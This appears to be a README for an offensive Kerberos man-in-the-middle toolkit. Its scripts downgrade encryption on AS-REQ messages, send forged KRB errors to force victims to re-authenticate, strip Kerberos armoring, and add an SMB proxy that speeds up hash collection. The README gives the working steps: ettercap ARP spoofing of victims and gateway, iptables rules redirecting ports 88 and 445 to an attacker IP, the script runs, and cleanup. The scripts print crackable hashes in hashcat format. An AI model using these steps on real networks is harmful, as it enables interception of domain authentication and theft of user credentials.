



# Kerberos Downgrade And Dearmor
Kerberos MitM to downgrade encryption type of AS-REQ messages and de-armor them to get easily crackable hashes.
## Use (MitM)
In a MitM position, this script:
- Downgrades the encryption types of the ERR_PREAUTH_REQUIRED message from the DC (if etype 23 is advertised) to get high hashrate hashes.
- Replies KDC_ERR_TGT_REVOKED to the two firsts TGS-REQ of every user to force them to authenticate again and get a crackable hash from the AS REQ message.
- Print hashes in hashcat format.
- Detect if kerberos armoring is in place to prevent this attack.





```
sudo ettercap -i <INTERFACE> -P autoadd -T -q -M arp:remote /victims// /gateway ip//
```
```
sudo ./venv/bin/python3 kerberos_mitm.py
```
```
sudo iptables -t nat -A PREROUTING -p tcp --dport 88 -j DNAT --to-destination <ATTACKER IP>:88
```

## Use (MitM + de-armoring)
Sometimes Kerberos armoring is in place to avoid the previous attack. It encrypts the sensitive Kerberos messages with the machine account key.





To get some crackable hashes, it is possible to reply with kerberos errors to force the machine account to re-authenticate, reply a KRB ERROR to its AS REQ preventing authentication and **if Kerberos armoring is not strictly enforced** it will fallback to classic AS REQ. If it is strictly enforced this completely breaks kerberos authentication from your victims.





```
sudo ./venv/bin/python3 kerberos_mitm_dearmor.py
```

## SMB MitM
Adding SMB MitM can help getting hashes faster. This is a transparent SMB proxy, except it replies to Session Setup Request messages with STATUS_MORE_PROCESSING_REQUIRED encapsulating KRB_AP_ERR_MODIFIED. This triggers a TGS REQ, that will be intercepted by kerberos_mitm to trigger an AS REQ to get a crackable hash.
```
sudo ./venv/bin/python3 smb_mitm.py
```
```
sudo iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination <ATTACKER IP>:445
```
## Cleanup
Quit ettercap &
```
sudo iptables -t nat -F
```
